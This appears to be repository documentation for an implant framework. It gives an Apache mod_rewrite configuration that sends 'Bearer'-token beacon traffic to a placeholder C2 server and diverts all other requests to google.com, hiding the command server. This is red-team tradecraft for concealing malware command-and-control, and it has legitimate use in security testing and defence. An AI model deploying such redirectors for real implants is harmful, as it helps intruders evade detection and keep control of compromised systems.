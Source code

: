 # Apache Configuration

## HTTP Auth Beacon
The HTTP auth beacon sends the id of our implant to the C2 server in the Authorization header. We need to configure Apache to redirect our implant traffic to our C2 server and redirect all other traffic to a benign server. The following Apache configuration options will redirect any request that includes the Authorization header with a Bearer token to our C2 server and all other traffic to google.com.

    RewriteEngine On

    RewriteCond %{HTTP:Authorization} ^Bearer
    RewriteRule (.*) http://c2.server.address:port/ [L]

    RewriteRule (.*) https://google.com [L]

A similar technique can be used to reroute traffic based on many other properties of the HTTP request. The mod_rewrite documentation should provide you with a number of ideas. http://httpd.apache.org/docs/current/mod/mod_rewrite.html
